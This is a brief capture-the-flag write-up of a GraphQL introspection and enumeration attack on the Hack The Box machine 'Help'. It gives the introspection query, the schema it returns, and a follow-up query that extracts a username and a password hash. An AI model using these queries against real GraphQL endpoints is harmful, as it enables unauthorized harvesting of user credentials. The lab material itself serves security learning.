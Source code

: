 ## Graphql introspection Example

hackthebox has a box called help. The box has a great example of a graphql enumeration.

The Introspection
```
graphql?query={__schema{types{name,fields{name}}}}
```

Introspection Output
```
{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"user"}]},{"name":"User","fields":[{"name":"username"},{"name":"password"}]},{"name":"String","fields":null},
{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":
[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},
{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"Boolean","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},
{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},
{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},
{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```

Enumerating data from fields
```
graphql?query={user{username}}
```

Enumerated fields
```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```
